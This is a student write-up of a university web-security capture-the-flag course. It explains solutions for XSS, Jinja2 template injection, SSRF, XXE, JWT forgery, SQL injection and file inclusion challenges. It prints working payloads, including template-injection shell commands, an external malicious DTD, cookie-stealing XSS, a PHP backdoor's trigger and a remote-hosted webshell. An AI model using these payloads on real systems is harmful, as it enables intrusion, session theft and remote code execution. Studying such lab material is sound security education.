




# 🔒 Web Security CTF 🔒

## Introduction
**Web Security CTF** is a Capture The Flag challenge organised within the
5<sup>th</sup> year Web Security module at {Epitech}.

This document is a final write-up, it provides detailed explanations on how the
challenges were solved and gives exhaustive descriptions of our approach.

*This write-up is accompanied by a Postman collection file,
`Web-Security-CTF.postman_collection.json`.\
If you are using Postman, feel free to import it and follow along solving
challenges 🚀*

## 😶 WordStress

### Goal
The goal of the challenge is to find vulnerabilities on a WordPress website.

### Solving
We will be looking for vulnerabilities within
[WPScan](https://wpscan.com/wordpresses). For this, we first need to figure out
the version of WordPress the website is running on.

We can find it in a `<meta>` tag within the source of the homepage:

```html
<meta name="generator" content="WordPress 4.2.34" />
```

With that in mind, we can now look for
[this specific version](https://wpscan.com/wordpress/42) on WPScan and pick any
vulnerability we find there.

We will pick [CVE-2019-16218](https://wpscan.com/vulnerability/9861), a fairly
simple vulnerability mentioning it is possible to perform XSS in the comments
section.

Let us go ahead and try that:


As we can see, we have successfully executed arbitrary javascript on the client
side of another user. We could now make them perform any requests, modify
the DOM of their page or download malicious software.

## 🐍 SSTI1

### Goal

Having a server that prompts for a username and sends back a string containing
`Hello 'username'`, use **SSTI** to retrieve the hidden flag.




### Solving
SSTI is a kind of [code injection](https://en.wikipedia.org/wiki/Code_injection)
vulnerability that occurs when a template string is poorly formatted on the
back-end of a web application. An attacker is then able to use native template
syntax to inject a malicious payload into a template and execute arbitrary code.

The first step of performing an SSTI attack is to determine whether the server
is vulnerable to it and what template language is being used.

Doing this is pretty straightforward: we will simply try different combinations
of opening braces and wait for an error to eventually be risen.

Combinations of opening braces in template languages include `<%=`, `${`, `{{`,
`#{`, ... 

Let us try some of them:

* `<%=`
   

* `${`
  

* `{{`
  

A-ha! This is good. This tells us the server is indeed vulnerable.

This also gives us an idea as to the kind of template engine we could be dealing
with. According to a quick google search, this could be:
* ERB (Ruby)
* FreeMarker (Java)
* Hubspot (Java)
* JinJa2 (Python)
* JinJava (Java)
* Native templates in Go
* NUNJUCKS (NodeJS)
* PEBBLE (Java)
* Twig (PHP)
* Tornado (Python)

After trying different `{{expressions}}`, we eventually bump into the following
result:


This looks like we are dealing with the
[JinJa2 templating language](https://tedboy.github.io/jinja2/generated/generated/jinja2.runtime.TemplateReference.html).

This is great news. Most likely we have a python framework here, probably Flask
or Django.

The problem is, we cannot simply use python instructions from within the
template, so we have to come up with a trickier way.

In fact, a reasonable option would be to use the `self` instance to walk up the
inheritance tree, get to an `import` statement, import the `os` module and then
execute arbitrary shell commands with `popen()`.

One way of doing this is as follows:
```python
{{self.__init__.__globals__.__builtins__.__import__("os").popen("ls -al").read()}}
```


And there we have it 🥳

We can now execute arbitrary shell commands on the back-end and read their
output right from our browser. Reading the contents from `app.py` is now a
breeze:
```python
{{self.__init__.__globals__.__builtins__.__import__("os").popen("cat app.py").read()}}
```


As we have predicted, this is indeed a Flask server running some really reckless
python code. Oh, and we have the flag sitting here as well.

## 🐍 SSTI2

### Goal
Having a server that prompts for a username and sends back a string
`Hello 'username'`, use SSTI to retrieve the hidden flag.


### Solving
New challenge, old ways. First, we will use the exact same method to get a
directory listing:


And then find our flag patiently waiting for us in `flag.txt`:


## 🐍 SSTI3

### Goal
Having a server that prompts for a username and sends back a string
`Hello 'username'`, use SSTI to retrieve the hidden flag.


### Solving
Let us list the files we have once again:


Looks like we have an executable binary called `getFlag`. Let us run it:


Easy.

## 🐍 SSTI4

### Goal
Having a server that prompts for a username and sends back a string
`Hello 'username'`, use SSTI to retrieve the hidden flag.


### Solving
Same drill, let us see what we are dealing with:


We have a file named `docker-compose.yml`, let us see what is inside:


Seems like the app is running inside a docker container on network `ssti4`.

This network also had another image, `toto8042`, which is now commented.
However, the comments suggest this image was never stopped and might still be
running.

The image's name may suggest the port it is listening on, so let us do a `GET`
request on `toto8042:8042`.

Note that we will use the `timeout` command to avoid waiting for too long
responses:


Alright, `not the way` it is.

And after multiple attempts to reach the server on different ports, we finally
get a response on `toto8042:4242`:


Victory!

## 🤫 Confessions

### Goal
We have a website that is used to "confess our deepest secrets" and "make it
good with God". Well, finally we do!

We know that somebody has been using it before us, and our goal is to figure out
*their* deepest secret, despite the site being reportedly "inviolable".\

But this is still to be proven...

### Solving
We land on a webpage the stylesheet of which is already enough to send its
developer confessing their sins for the rest of their life.


Alright, let us start typing something while monitoring the requests being made:


It looks like these are GraphQL requests made every time we input some text.

And they are used to... Compute the hash?!


Alright, at this point we have already seen enough to say that there is
something going terribly wrong with this system. Calling a server to generate a
hash that could have been generated on the client is already a mediocre idea,
but doing so **sequentially** makes it even worse...

Anyway, let us keep going for now: we have a GraphQL server, so the first thing
to do is to try to get a schema representation from it.

We will do this with Postman:


Great, it worked! And we can also see right away that we can query the request
logs. Oh boy, this is getting interesting!


And **this** is exactly why you never send incremental hashes to the server...

Looking at the logs, we can see there are two kinds of requests being logged:
`addConfession` and `confession`. `addConfession` stores the payload of the
confession but replaces `title` and `message` with `"<confidential>"`, which
renders it useless.

However, the `confession` log stores the value of the hash generated by the
server.

Now, if we had just the final hash of a moderately long message, we could not
have done much with it. In order to guess the original message, we would have
had to brute-force all possible combinations of characters, which would take
forever.

In fact, this would have taken exactly `255 ** n`, where `n` is the length of
the message.

The problem arises when, like in out case, we have several consecutive hashes,
and we know their plaintexts have a single character of difference. Essentially,
instead of looking for the entire hash, we can crack it by starting with the
previous prefix and adding one character at a time, effectively reducing the
running time of our algorithm from `255 ** n` to `255 * n`.

For example, suppose we have the following hashes:
```text
252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111
593f2d04aab251f60c9e4b8bbc1e05a34e920980ec08351a18459b2bc7dbf2f6
c310f60bb9f3c59c43c73ff8c7af10268de81d4f787eb04e443bbc4aaf5ecb83
807d0fbcae7c4b20518d4d85664f6820aafdf936104122c5073e7744c46c4b87
```

Starting from the first hash, we can find the message by hashing all possible
characters. We find this is the hash of the letter `f`.

Now, moving on to the second hash, which corresponds to a message of length `2`,
we do not need to look through the `255 ** 2` characters since we already know
the first character is `f`. So again, we only need `255` iterations to test for
the last character, which we find to be `l`.\
Similarly, we can compute each of the two following steps in constant time,
giving us the following result:
```text
252f10c83610ebca1a059c0bae8255eba2f95be4d1d7bcfa89d7248a82d9f111 -> f***
593f2d04aab251f60c9e4b8bbc1e05a34e920980ec08351a18459b2bc7dbf2f6 -> fl**
c310f60bb9f3c59c43c73ff8c7af10268de81d4f787eb04e443bbc4aaf5ecb83 -> fla*
807d0fbcae7c4b20518d4d85664f6820aafdf936104122c5073e7744c46c4b87 -> flag
```

With this in mind, let us implement an algorithm that would do the same with the
hashes' logs. You can find it in `scripts/confessions.js`.

Running it produces the following output:
```shell
$ time node confessions.js
```
```text
Decrypted sequence: Z**********************
Decrypted sequence: ZO*********************
Decrypted sequence: ZOB********************
Decrypted sequence: ZOB{*******************
Decrypted sequence: ZOB{p******************
Decrypted sequence: ZOB{pl*****************
Decrypted sequence: ZOB{plz****************
Decrypted sequence: ZOB{plz_***************
Decrypted sequence: ZOB{plz_d**************
Decrypted sequence: ZOB{plz_d0*************
Decrypted sequence: ZOB{plz_d0n************
Decrypted sequence: ZOB{plz_d0nt***********
Decrypted sequence: ZOB{plz_d0nt_**********
Decrypted sequence: ZOB{plz_d0nt_t*********
Decrypted sequence: ZOB{plz_d0nt_t3********
Decrypted sequence: ZOB{plz_d0nt_t3l*******
Decrypted sequence: ZOB{plz_d0nt_t3ll******
Decrypted sequence: ZOB{plz_d0nt_t3ll_*****
Decrypted sequence: ZOB{plz_d0nt_t3ll_a****
Decrypted sequence: ZOB{plz_d0nt_t3ll_an***
Decrypted sequence: ZOB{plz_d0nt_t3ll_any**
Decrypted sequence: ZOB{plz_d0nt_t3ll_any1*
Decrypted sequence: ZOB{plz_d0nt_t3ll_any1}

The flag is: ZOB{plz_d0nt_t3ll_any1}

real	0m0.142s
user	0m0.099s
sys	0m0.035s
```

Notice how we only needed `255 * 23 = 5865` iterations instead of the
`255 ** 23 = 22409086343932890693549885316479244931352138519287109375` we would
have needed if we computed the hash of this 23-characters-long message from
scratch.

## 🐹 SSRF

### Goal
[Server-side Request Forgery](https://en.wikipedia.org/wiki/Server-side_request_forgery)
is a vulnerability that allows an attacker to forge and send arbitrary HTTP
requests from the server-side application.

We are given a website that claims it is a "host fetcher" and prompts us to
enter an url to make a request on port `80`.

In order to get the flag, we have to make a request to `/secret` that originates
from `127.0.0.1`.


### Solving
Well, it looks like this website is just appending `:80` to our string and
performing a request to the resulting url.

So a naive solution would be to input `127.0.0.1/secret#`, with the `#` sign
commenting out the `:80` part:


Alright, we need some sort of `GOSESSION`.

From the browser console, we can see it is a cookie that was set when we opened
the page.

At this point, it might be a good idea to see what we are dealing with.
Let us make a request to [ifconfig.co](https://ifconfig.co) to see if we can
find something interesting about the application:


We can see that the `User-Agent` of the application is `Go-http-client` version
`1.1`. A quick search reveals the following vulnerability on the official
golang repository:
[#30794](https://github.com/golang/go/issues/30794)

From the issue above we figure out that `http.NewRequest` does not escape
`GET` parameters before appending them to the url. Ugh.

We can then easily come up with a rough replica of the host fetcher, available
in `scripts/ssrf/`.

It can be compiled and run the following way:

```sh
go build
printf "SOME_PAYLOAD" | ./ssrf
```

We will now listen on port `80` of our machine with `nc -l 80` and run our
script to see the request it produces:

```http request
GET /?SOME_PAYLOAD:80/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip

```

Knowing that the string we enter (`SOME_PAYLOAD`) will be replaced with the data
we send, we can inject arbitrary HTTP headers by appending them to `127.0.0.1?`.

So let us set our payload to the following string:

```http request
/secret? HTTP/1.1
Host: 127.0.0.1
Cookie: GOSESSION=guest-go1.11.5

```

Which will produce the output below:

```http request
GET /secret? HTTP/1.1
Host: 127.0.0.1
Cookie: GOSESSION=guest-go1.11.5

:80/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip

```

Note how we added a `Cookie` header and finished with a double CRLF. This makes
the HTTP protocol consider all following data (starting with `:80/ HTTP/1.1`) as
the request body, which, without a `Content-Length` header, will be ignored.

And there we have it! We will now encode this payload into a URI:
```
127.0.0.1/secret? HTTP/1.1%0D%0AHost: 127.0.0.1%0D%0ACookie: GOSESSION=guest-go1.11.5%0D%0AContent-Length: 0%0D%0A%0D%0A
```

And pass this string under the `host` `GET` parameter:


Decoding the `content` with base64 gives us the flag.

## 😵‍💫 XXE1

### Goal
This challenge consists of a page with a form with an input field, prompting us
for a message and displaying `Thank you for wour message:` followed by the
contents of our message.

### Solving
First, let us see what happens when we submit the form:


The base64 value in the `xml` parameter decodes to:

```xml
<?xml version="1.0"?>
<document>
    <message>hello</message>
</document>
```

This means we can pass any encoded XML document, and we will be shown the
contents of the `<message>` tag.

Now, XML allows custom entities to be defined within the DTD inside the
`<!DOCTYPE>` tag.
Any defined entity can be referenced by its `&name;` within the document.

The interesting part comes when we start dealing with so-called *external*
entities, which allows us to specify an url from which the value of the entity
should be loaded.

If the XML file is parsed in PHP, the url behaves as if it was passed to PHP's
`include()` function, allowing us to use filters such as `convert.base64-encode`
to retrieve the contents of arbitrary files.

So let us make a request with the following XML file converted to base64:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>
    <message>&xxe;</message>
</root>
```


Which decodes to the following:


We can see we have a commented `include_once('flag.php');` on line `35`, so let
us look inside this file instead by slightly modifying our payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.php">
]>
<root>
    <message>&xxe;</message>
</root>
```

Which produces a base64 output decoding to the contents of `flag.php`, which
contains the flag.

## 😵‍💫 XXE2

### Goal
The challenge consists of a page with a form with an input field, prompting us
for a message and displaying `Thank you for wour message: ` followed by the
contents of our message when the form is submitted.

### Solving

This time, once we submit the form, we do not get the contents of our message
back once it has been received, which makes the challenge trickier:


We can still send arbitrary XML to the server though, so let us try to get some
feedback by submitting an invalid xml.

For example, let us send a simple `<`:


This is good news, because it means the XML message still gets parsed and the
server returns an explicit error upon failure.

We can utilize this functionality to include an entity from a nonexistent file
while appending the contents of an arbitrary file to the included url.

This way, when we get an error, the url will reflect the contents of the file
we included.

However, external entities can only be included from, well, *external* DTD
files, so, since it is unlikely there is some malicious DTD file lying around
on the server, we will need to upload our own DTD payload to a public URL and
require it the following way:

```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://our.remote.server/xxe.dtd">
    %remote;
]>
```

Now, in our malicious `xxe.dtd`, we can finally put the XML to include the
contents of a nonexistent URL followed by the contents of `flag.php`.

In fact, since `file://` inclusion is not forbidden inside of DTD files, we will
not even need to encode the target file with PHP filters this time around:

```xml
<!ENTITY % data SYSTEM "file:///var/www/html/flag.php">
<!ENTITY % xxe "<!ENTITY &#37; xxe-url SYSTEM 'file:///i-dont-exist/%data;'>">
%xxe;
%xxe-url;
```

And this request finally yields the contents of `flag.php`:


## 👻 OBF100

### Goal
We are taken to a page which prompts us for a secret password.\
We have to figure out the password to get the flag.


### Solving
From the page's source code, we can see there is a comparison between `password`
and `input`.


So, why don't we just ask the page's javascript context for the password? 🧠


Once we have the password, we just need to reload the page and type it in to get
the flag:


## 👶 SCRIPT_KIDDING

### Goal
> Niark niark niark, I infected this website with a webshell that I found on the
> internet, but I forgot to read the instructions T_T\
> Can you help me find out how to use it ? I swear I did not hide it in
> i_am_not_a_backdoor.php


### Solving
That's unfortunate. You should have read the web shell's instructions.\
There can be useful things written in there, you know...

Anyhow, let us look at `i_am_not_a_backdoor.php`:


Very well, now let us execute this code, replacing `eval()` with `echo`.

You can find the resulting script in
`scripts/script-kidding/i_am_not_a_backdoor_script.php`.

Now let us format this code to better understand what is going on. Follow along:
1. Use your IDE's automatic reformatting to fix indentations and ugly code style
2. Rename functions to actually make sense:
    * `improve_meta()` -> `get_key()`
    * `append_strings()` -> `xor_strings()`
    * `make_submission()` -> `xor_strings_repeating()`
    * `remove_letter()` -> `unserialize_decoded()`
    * `screen_submission()` -> `decode_with_key()`
3. Replace `_base64_decode()` with `base64_decode()`, its php equivalent, and
remove `_base64_decode()`'s implementation
4. Rename all variables to actually make sense, remove unused variables
5. Move top-level code after function declarations

The formatted file can be found in
`scripts/script-kidding/i_am_not_a_backdoor_script_formatted.php`.

We can now begin to analyse what is going on here.

Let us first describe the functions we have:
* `get_key()` returns a constant string by decoding a base64 buffer
* `xor_strings($left, $right)` is equivalent to PHP's `^` operator, which XORs
  strings character by character while trimming the result to the shortest
  string's length
* `xor_strings_repeating($left, $right)` is a more advanced version
  of `xor_strings($left, $right)`. It behaves in a similar way but repeats
  `$right` to fit `$left`'s length before XORing.
* `decode_with_key($value, $key)` performs a `xor_strings_repeating` on the
  `$value` and the `$key` and then on the result and
  `"4ef63abe-1abd-45a6-913d-6fb99657e24b"`. In practice this means that if
  `$key = "4ef63abe-1abd-45a6-913d-6fb99657e24b"`, then `$value` will be left
  unchanged.
* `decode_and_unserialize($value, $key)` simply calls
  `decode_with_key($value, $key)` with the provided parameters and unserializes
  the result.

Now that we understand what each function is doing, let us go through the
top-level code that will be executed.

You can follow along in
`scripts/script-kidding/i_am_not_a_backdoor_script_formatted.php`.

* **l. 1-6**: suppress error logs, remove execution time limit.
* **l. 7-51**: declare functions
* **l. 52-60**: for each cookie, call `decode_and_unserialize` with its value
  decoded from base64 and its key, and stop if returned result is true-ish.
  Store the result in `$payload`.
* **l. 61-69**: if `$payload` is still `false`, do the same for `POST`
  parameters.
* **l. 70-78**: if `$payload` does not include an `ak` key or this key is
  false-ish, set `$payload` to an empty array.
* **l. 79-94**: otherwise, if `$payload['a'] == "e"`, call `exec()` on
  `$payload['d']`.

We can now deduce the requirements to execute this backdoor using a bottom-up
approach. First, we will deduce what the `$payload` variable should be:

* `$payload`'s `'d'` should be the code we want to execute:
  ```injectablephp
  $payload = [
      'd' => 'echo shell_exec("ANY_SHELL_COMMAND");'
  ];
  ```
* `$payload`'s `'a'` should be `'e'`:
  ```injectablephp
  $payload = [
      'a' => 'e',
      'd' => 'echo shell_exec("ANY_SHELL_COMMAND");'
  ];
  ```
* `$payload`'s `'ak'` should be true-ish:
  ```injectablephp
  $payload = [
      'ak' => 1
      'a' => 'e',
      'd' => 'echo shell_exec("ANY_SHELL_COMMAND");'
  ];
  ```

Now, we can choose to take this payload either from the request cookies or from
the `POST` parameters. Let us take it from the `POST` parameters.

As previously noted, `decode_and_unserialize` will unserialize any `$value` to a
PHP object provided the `$key` is equal to
`"4ef63abe-1abd-45a6-913d-6fb99657e24b"`.

Thus, we will set a `POST` parameter named
`4ef63abe-1abd-45a6-913d-6fb99657e24b` and pass it a base64 encoding of a
serialization of the `$payload` we need.

This can be generated with the following PHP code:
```injectablephp
<?php

$command = "ANY_SHELL_COMMAND";
$payload = ['ak' => 1, 'a' => 'e', 'd' => "echo shell_exec(\"$command\");"];

print_r([
    'POST parameter name' => '4ef63abe-1abd-45a6-913d-6fb99657e24b',
    'POST parameter value' => base64_encode(serialize($payload))
]);
```

Running this code with `$command = "ls -al"`, we get a cookie value that we will
use in our request to `i_am_not_a_backdoor.php`:


Bingo! We can now repeat the process with the `cat i_am_a_secret_file` command:


## 👋 WhatsUp

### Goal
We are provided with a messaging website which we can use to send and receive
messages. We are automatically assigned a username and can choose to send a
message to users from a given list.

Our goal is to perform an XSS attack to retrieve the cookies of the admin user.


### Solving
Perhaps the most basic type of XSS attack is an `` tag with an invalid
`src` and an `onerror` attribute.

Let us try to send such a tag:

```html

```


As we can see, the form submission triggers a `POST` request to `/send_it` with
the target id and the content of the message.

We will keep that in mind.

Let us now check our messages:


Interesting, the message html is rendered as-is, but it looks like all
occurrences of `con` are replaced with `***`, which is why we can not use
`console`. Well, let us make a quick workaround then:

```html

```

This works like a charm, and we will now try to upload a more useful XSS payload
and send the following js code to *admin*:

```js
fetch(
    "/send_it",
    {
        headers: {["c" + "ontent-type"]: "application/x-www-form-urlencoded"},
        body: "id=3416&c" + "ontent=" + encodeURIComponent(
            "cookie: " + document.cookie
        ),
        method: "POST",
        mode: "cors",
        credentials: "include"
    }
)
```

This makes a request to `/send_it`, sending a message to our user (id `3416`)
and including the document cookies in it.

Putting it inside the `` tag, we get the following:

```html

```

Let us send this to ourselves and see what happens:


It works, although our current user does not have any js-accessible cookies.

Let us now send this message to admin, wait a couple of minutes and check our
message history:


Bam!

## 👋 WhatsUp2

### Goal
We are provided with a messaging website which we can use to send and receive
messages. We are automatically assigned a username and can choose to send a
message to users from a given list.

Our goal is to perform an XSS attack to retrieve the cookies of the admin user.


### Solving
This time, we can either send a message as text or as an image, providing an
image url.

So, assuming the url of the image we send does not get sanitized, we can forge
a similar `/send_it` request:

```js
fetch(
    "/send_it",
    {
        headers: {["c" + "ontent-type"]: "application/x-www-form-urlencoded"},
        body: "option=message&id=124&c" + "ontent=" + encodeURIComponent(
            "cookie: " + document.cookie
        ),
        method: "POST",
        mode: "cors",
        credentials: "include"
    }
)
```

We will send it as a similar payload, but trimming the leading `` this time around:

```html
_" onerror="fetch('/send_it',{headers:{['c'+'ontent-type']:'application/x-www-form-urlencoded'},body:'option=message&id=124&c'+'ontent='+encodeURIComponent('cookie:'+document.cookie),method:'POST',mode:'cors',credentials:'include'})
```


Once again, after a few minutes, we get the admin cookie right in our messages:


## 🦄 Mythique1

### Goal
We land on a *mythical* website with a super-mythical *button*.
Our goal is to trick the system into thinking we are an admin user and retrieve
a secret code, which is the flag.


### Solving
Once we press the button, a request gets sent to `/flag` and the server responds
with `{"error":"Only admins can do this!"}`.


Let us see our cookies:


This looks awfully like a JWT token. Let us inspect it on
[jwt.io](https://jwt.io/):


Now, the most basic JWT attack consists in simply modifying the payload without
touching the signature and hope the server forgets to verify it:


Modifying our cookie to this value, we manage to successfully retrieve the flag:


## 🦄 Mythique2

### Goal
We land on a *mythical* website with a super-mythical *button*.
Our goal is to trick the system into thinking we are an admin user and retrieve
a secret code, which is the flag.

This time, however, we are given an `RSA` key that is claimed to have signed our
JWT token.


### Solving
When we decode our JWT cookie this time, we see that the algorithm was changed
to `RS256`:


A common attack on an `RS256`-signed JWT is changing the algorithm to the
symmetric `HS256`, and encrypting an arbitrary payload with the contents of the
public key file.

We can do this directly from the [jwt.io](https://jwt.io/) website, for this we
need to get the contents of `serverkey.pub` as base64:

```shell
base64 < serverkey.pub
```

And then use it as our `HMACSHA256` signature:


Setting this in our cookie, we can successfully retrieve the flag.

## 🦄 Mythique3

### Goal
We land on a *mythical* website with a super-mythical *button*.
Our goal is to trick the system into thinking we are an admin user and retrieve
a secret code, which is the flag.


### Solving
For this last challenge, we are dealing with a symmetric `HS256` algorithm.
We do not have any indication as to what the secret might be, so we will try to
brute-force it.

For this, we will use [John the Ripper](https://github.com/openwall/john), an
iconic offline password cracker.

All we have to do is store the jwt inside a file and pass it to the `john`
executable:

```sh
./john jwt.txt
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:./password.lst
Enabling duplicate candidate password suppressor
Disabling duplicate candidate password suppressor
grazou           (?)     
1g 0:00:02:33 DONE 2/3 (2022-12-16 21:55) 0.006505g/s 2843Kp/s 2843Kc/s 2843KC/s ceaeda..kaay01
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

John finds the secret in about 2 minutes and a half. Now let us forge a JWT
token with it:


Making a request to `/flag` with this JWT gives us the final flag.

## 🧪 PotionSeller

### Goal
We land on a page that claims it will sell us *magical potions* (legally? 🤔)

Our goal is to utilize SQL injections buy **the strongest potion** to obtain the
flag.


### Solving
First, let us see what happens when we click on the strongest potion.


We can see that there is a request being made to `GET /potions/4`, but it fails.
So we will need to find another way to retrieve potion `4`.

First, let us see if this endpoint is vulnerable to SQL injections by replacing
the potion id with `--`:


An exception is thrown, so it probably is. We will now try to guess the SQL
query that is being made. Judging by the data we get, it might look like
something like this:

```sql
SELECT * FROM potions WHERE id = ?
```

Where `?` is our unsanitized input.

So, one option to retrieve potion `4` would b to provide an id value of
`NULL OR id = 4`, which is not exactly `4`, but will still get potion with id
`4` since there are probably no potions with a `NULL` id.

The concatenated query will look like this:

```sql
SELECT * FROM potions WHERE id = NULL OR id = 4
```



Alright, if this looks like `4`, then we will remove the `4` ✨


Easy win 🎉

## 🧪 PotionSeller2

### Goal
We have a similar website, except this time it also has an "Admin space",
prompting us for a login and a password.


### Solving
Our plan is to use the previously discovered vulnerability to retrieve a schema
description of the database and work from here to get the necessary credentials.

First, we will run a few tests to see what our query looks like.

Here is a summary of what we discover:

* Providing `--` raises an `SQLITE_ERROR`. This way we know what database engine
  is being used.
* Providing `0--` raises an error, so there has to be something important in the
  original query after our inserted value.
* Providing `0)--` successfully retrieves potion `0`, so we know that our
  inserted value is followed by a closing bracket.

We now have an estimate regarding the query that is being run.

From what we have described above, it might look something like this:

```sql
SELECT * FROM potions WHERE (id = ?)
```

We will now use a `UNION` statement to query the `sqlite_master` table,  which
stores the structure of tables for this database, by forming the following
query:

```sql
SELECT * FROM potions WHERE (id = NULL) UNION SELECT name, sql, NULL, NULL, NULL, NULL FROM sqlite_master--)
```

Here, we select the columns `name` and `sql` from `sqlite_master` and pass them
under the `id` and `name` fields that we know will be shown to us.

Note that since we are performing a `UNION`, we also fill the other columns with
arbitrary values (`NULL` in our case).


This gives us the name and the description of the first table available.

We can now add `LIMIT 1 OFFSET n` at the end of our statement to iterate through
tables, where `n` is our table number.

Doing this, we get the following result for `OFFSET 2`:


We now know there is a `users` table with columns `id`, `username` and
`password`. So we can retrieve the first user like so:


A quick rainbow table lookup of this hash reveals their password: `potions`.

We can now log in with these credentials and retrieve the flag.

## 📂 Filters

### Goal
We have to perform an LFI attack on a PHP webpage with known source code.


### Solving

From the source code, we can see that there is a `require()` statement with the
`lang` `GET` parameter.


Thus, we can use PHP filters to include the contents of an arbitrary file.

For example, we can pass
`lang=php://filter/convert.base64-encode/resource=config.php` to get a base64
encoding of the config file:


Decoding this base64 string gives us the flag.

## 🤨 NoProtection

### Goal
We are told that the flag is in *an obvious html place*.


### Solving
🤨


## 🗃️ ExtProtect

### Goal
We have to perform an LFI attack on a PHP webpage.


### Solving
When trying to perform a trick similar to the `Filters` challenge, we get the
following error:



As we can see, the `.php` extension is already appended to the string, so we
will remove it from our url:


## 🧑‍💻 Remote

### Goal
We have to perform an RFI attack on a PHP webpage.


### Solving
This time, we do not know where the flag is located, so we will perform a Remote
File Inclusion attack in order to turn the webpage into a basic webshell.

Let us host the following file on a remote server:

```injectablephp
<pre>
<?=shell_exec($_GET["cmd"])?>
</pre>
```

This essentially executes any shell command passed under the `cmd` `GET`
parameter.

We will launch it like this:


